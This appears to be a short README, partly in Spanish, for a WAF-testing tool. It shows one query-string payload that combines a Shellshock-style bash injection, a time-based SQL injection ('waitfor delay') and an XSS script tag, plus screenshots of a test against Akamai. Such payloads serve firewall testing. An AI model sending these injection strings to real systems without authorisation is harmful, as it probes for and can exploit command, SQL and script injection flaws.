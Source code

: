 # Extension


## waf test payload
```?firewalltest?=env%20x=%27()%20{%20:;};%20echo%20IDS/IPS%27%20bash%20-c%20\"IPStest\"///&&&&WAF=\"\"),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL)%20waitfor%20delay%20%270:0:20%27%20/*\"&&XSS=<script>alert(1)</script>&&```



#### Prueba a Akamai  WAF 
![image](https://user-images.githubusercontent.com/26071783/50234101-93148600-037a-11e9-9251-e88589c8999a.png)

#### Response Headers

![image](https://user-images.githubusercontent.com/26071783/50234424-4bdac500-037b-11e9-9157-2a40b1255e44.png)
